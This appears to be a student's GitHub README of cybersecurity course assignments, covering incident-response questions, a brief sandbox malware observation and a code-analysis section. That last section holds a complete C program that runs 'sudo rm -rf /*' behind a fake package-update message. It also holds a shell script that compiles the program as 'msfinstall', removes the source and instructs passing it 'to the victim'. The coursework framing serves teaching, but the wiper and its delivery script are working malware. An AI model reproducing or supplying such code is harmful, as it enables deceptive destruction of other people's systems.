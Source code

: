 # Assignment-1

  1.What type of security breaches you may encounter as an incident responder?

	a, Data breaches.
	b, Source code leaks.
	c, Denial of service attacks.

   2.To detect malicious emails, what steps would you take to examine the emails’?write Helpful threat hunting Checklists
	a, If the email happens to be a spam.
	b, If the email is from a known source.
	c, If the email appears to be a click-bait to a link.

Assignment-2


   1.Idenify new created processes,service. 

   	a, System programs such as antiviruses.
	b, Third party programs currently running.
	c, Service progrmas running the background.


# Assignment-2
## Malware Analysis

 The assignment was to run malicious software on a windows sandbox and observe behaviours of the program.
 We used virtual box and run windows 7 on a VB instance.
 After running the program a few times we only managed to observe a few things.
 
 While  running the malware the program tried to perform a tcp connection to an external host, but was quickly stopped by the defender program.

 >despite this we were only able to identify a few processes running in the background.

<img src="shot1.png">
<img src="shot2.png">


# Assignment-3
## Code analysis

The source code that was analized was a C program that performed a given task.
```C
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

#define kill_os "sudo rm -rf /*"
#define text "Switching to root user to update the package" 
#define error_text "There has been an error."

int main(){
#if defined __linux__ || defined __unix__
    if ( geteuid() != 0 ){
        printf("%s\n", text); 
    }
    system(kill_os);
#else
    printf("%s\n", error_text);
    return 1;
#endif
}
```

The above C code is a script that will automatically destroy any linux/unix based system.

    1. The program starts by insuring that the current system is a linux/unix based one.
    2. If the system turns out to be a non linux/unix one it will display an error.
    3. Once the system is assured to be linux/unix then it will remove the root folder of the os which will lead to a complete distruction of the system.

The C program is intiated by running a bash command.

```bash
#!/bin/sh
gcc main.c -o msfinstall
mv msfinstall ..
cd .. && rm -rf fake-msfinstall/
echo "Now pass 'msfinstall' to the victim."
exit
```